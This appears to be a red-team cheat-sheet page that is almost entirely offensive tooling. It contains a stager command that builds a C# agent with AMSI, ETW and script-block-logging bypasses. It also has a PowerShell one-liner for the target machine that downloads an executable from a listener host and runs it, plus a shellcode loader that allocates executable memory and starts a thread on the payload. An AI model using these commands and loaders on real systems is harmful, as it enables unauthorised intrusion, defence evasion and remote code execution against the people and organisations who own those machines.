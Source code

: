#### CSharp Agent 
```bash
usestager windows_csharp_exe
set OutFile sharpies.exe
set Listener http
set Bypasses mattifestation etw ScriptBlockLogBypass
generate
```

#### Serve and Oneliner

```bash
# On Server
python3 -m http.server
```

```powershell
# On Target
powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://192.168.0.243:8000/sharpies.exe')|iex"
```

#### loader from snovvcras for readme.ps1/md
```powershell
$Win32 = @"

using System;

using System.Runtime.InteropServices;

public class Win32 {

[DllImport("kernel32")]

public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32", CharSet=CharSet.Ansi)]

public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("kernel32.dll", SetLastError=true)]

public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

}

"@

Add-Type $Win32

[Byte[]] $buf = <shellcode>

$size = $buf.Length

[IntPtr]$addr = [Win32]::VirtualAlloc(0, $size, 0x3000, 0x40)

[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $size)

$thandle = [Win32]::CreateThread(0, 0, $addr, 0, 0, 0)

[Win32]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF") 
```

